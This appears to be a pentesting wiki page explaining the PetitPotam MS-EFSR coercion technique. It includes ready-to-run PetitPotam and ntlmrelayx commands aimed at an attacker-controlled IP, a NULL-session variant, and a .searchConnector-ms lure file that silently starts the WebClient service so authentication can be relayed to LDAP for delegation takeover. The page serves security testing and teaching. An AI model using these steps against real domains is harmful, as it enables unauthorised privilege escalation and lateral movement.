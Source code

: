 # MS-EFSR abuse \(PetitPotam\)

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network \([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr)\) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc`, `\pipe\lsarpc`, `\pipe\samr`, `\pipe\lsass` and `\pipe\netlogon` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the `SYSTEM` account into creating an executable file of the attacker's choosing, hence providing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Gilles LIONEL](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication.

{% hint style="warning" %}
At the time of writing \(08/11/2021\), this bug has not been [fully addressed](https://blog.0patch.com/2021/08/free-micropatches-for-petitpotam.html) by Microsoft.
{% endhint %}

## Practice

An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" \(available in C and Python\) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

{% hint style="info" %}
**Nota bene**: the coerced NTLM authentication will be made through SMB. This is important because it restricts the possibilites of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMBv2 to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

{% hint style="success" %}
Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse \(printbug\)](ms-rprn.md), a NULL session could potentially be used to trigger that bug \(if allowed by the target\). This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.

```bash
Petitpotam.py $ATTACKER_IP $TARGET_IP
```
{% endhint %}

###  Webclient

The goal of the attack is to relay an http connection to a ldap service. A summary of cross-protocols NTLMv2 relay attacks is available on [Relay documentation](../ntlm/relay.md#theory).

On specific conditions, the coerced NTLM authentication could be used to impersonate a machine account and execute a [Resource-Based Constrained Delegation](../kerberos/delegations/rbcd.md). The conditions are:
- The Webclient service should be started, it could be checked with [WebclientServiceScanner](https://github.com/Hackndo/WebclientServiceScanner/). The service could be triggered through a `.searchConnector-ms` file dropped on a share folder. If a user browse the directory the webclient service will start automatically.

```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```

- To retrieve an authenticated connection the attacker should be considered in the intranet zone. One way to do it, is to use the Netbios name of the attacker machine.
- LDAP signing/channel-binding must be disabled (this is the default).
- Valid credentials or an existing connection to the target machine (e.g., a previous coerce authentication with PetitPotam)

1. Start ntlmrelay: `ntlmrelayx.py -t ldaps://pentest.lab --delegate-access`
2. Coerce the authentication: `python Petitpotam.py -u "login" -p "password" -d "pentest.lab" <netbios name of attacker machine>@80/whatever.txt <target machine>`
3. Once the webdav connection has been relayed a new computer account will be created with the delegation rights configured.

## Resources

{% embed url="https://www.exploit-db.com/exploits/47115" %}

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://pentestlab.blog/2021/10/20/lateral-movement-webclient/" %}

{% embed url="https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb" %}

